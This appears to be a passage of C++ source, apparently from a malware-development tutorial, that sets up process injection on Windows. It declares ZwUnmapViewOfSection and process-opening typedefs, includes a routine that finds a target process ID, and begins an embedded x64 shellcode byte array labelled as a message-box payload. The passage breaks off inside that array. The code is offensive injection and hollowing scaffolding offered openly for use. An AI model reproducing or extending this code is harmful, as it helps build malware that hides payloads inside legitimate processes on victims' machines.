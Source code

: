 ```cpp
  PHANDLE                 ProcessHandle,
  ACCESS_MASK             AccessMask,
  POBJECT_ATTRIBUTES      ObjectAttributes,
  PCLIENT_ID              ClientID
);

// ZwUnmapViewOfSection syntax
typedef NTSTATUS(NTAPI* pZwUnmapViewOfSection)(
  HANDLE                 ProcessHandle,
  PVOID BaseAddress
);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  // 64-bit meow-meow messagebox without encryption
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
```